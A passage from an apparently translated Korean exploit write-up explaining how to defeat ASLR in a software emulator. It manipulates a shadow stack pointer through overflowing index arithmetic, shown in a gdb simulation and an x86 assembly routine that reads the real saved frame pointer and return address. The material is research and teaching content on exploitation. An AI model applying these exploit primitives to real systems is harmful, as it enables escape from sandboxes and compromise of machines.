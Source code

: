 우리가 몇 가지의 메모리 주소들을 알아낸다면 ASLR을 우회할 수 있으며, 인접한 메모리 영역으로 행동반경이 더이상 제한되어있지 않을 것이다. 이렇게 하기 위해서는 섀도우 스택 포인터가 가리키는 위치를 임의의 인덱스로 설정할 수 있어야하는데, 5 단계의 작업을 거쳐 섀도우 스택 포인터의 상위 bit들을 쉬프트해 제거해버리면 가능하다. 실제 인덱스 계산은 대략 아래와 같다.
* ESP에 대한 산술연산

{% highlight c++ %}
ShadowStackPointer = ShadowStackPointer - ((unsigned) Index >> 2);
{% endhighlight %}

위 수식은 오버플로우때문에 한번의 작업으로 새도우 스택포인터를 증가시키는것은 불가능하다. 대신에 4번의 작업을 통해 다음 4의 배수로 만든 다음, 원하는 값으로 감소시키는 방법을 쓸 수 있다. 아래는 새도우 스택포인터를 123으로 만드는 방법을 시뮬레이션한 예이다.

{% highlight c++ %}
(gdb) p 123 / 4 + 1
$1 = 31
(gdb) p/x 0 - (-(31U * 4) >> 2)
$2 = 0xc000001f
(gdb) p/x 0xc000001f - (-(31U * 4) >> 2)
$3 = 0x8000003e
(gdb) p/x 0x8000003e - (-(31U * 4) >> 2)
$4 = 0x4000005d
(gdb) p   0x4000005d - (-(31U * 4) >> 2)
$5 = 124
(gdb) p 124 - (((4U - (123 % 4)) * 4) >> 2)
$6 = 123
(gdb) 
{% endhighlight %}

이 요소를 PUSH/POP과 조합하면 스택의 임의 인덱스와 상호작용할 수 있다. Figure 4는 x86 코드를 이용, 에뮬레이터 내부에서 어떻게 임의의 스택 인덱스에 접근할 수 있는지 설명하는 코드이다.


{% highlight nasm %}
 accessframe:
    ;
    ; Retrieve information from our stack frame.
    ;
    ; EDI   Real return address
    ; ESI   Real base pointer
    ;
    ;
    ; The stack frame looks like this:
    ;
    ;   -00000030 ShadowStack     dd 10 dup(?)
    ;   -00000008 ModifyCount     dd ?
    ;   -00000004 CycleCount      dd ?
    ;   +00000000  s              db 4 dup(?)
    ;   +00000004  r              db 4 dup(?)
    ;   +00000008 EmulatorObject  dd ?
    ;
    ; So s is 30h + 8 + 4 bytes from the base of ShadowStack. Because the
    ; ShadowStackPointer is an index into an array of DWORDS, we need to set it
    ; to (30h + 8 + 4) / 4 = 15.
    ;
    ; Then we can load s (saved register), and r (return address)
    ; onto virtual registers. To calculate the value of real EBP, we take the
    ; previous frame's sp and subtract our frame size.

    ; We need to move the shadow stack pointer back in five stages.
    add     esp, byte -(4 << 2)     ; SSP=0xC0000004
    add     esp, byte -(4 << 2)     ; SSP=0x80000008
    add     esp, byte -(4 << 2)     ; SSP=0x4000000C
    add     esp, byte -(4 << 2)     ; SSP=0x00000010
    add     esp, byte  (1 << 2)     ; SSP=0x0000000F
    pop     esi                     ; Load the real previous frame's sp.
    pop     edi                     ; Load the return address.
    sub     esi, byte 0x5C          ; Adjust ESI to point to our real stack frame.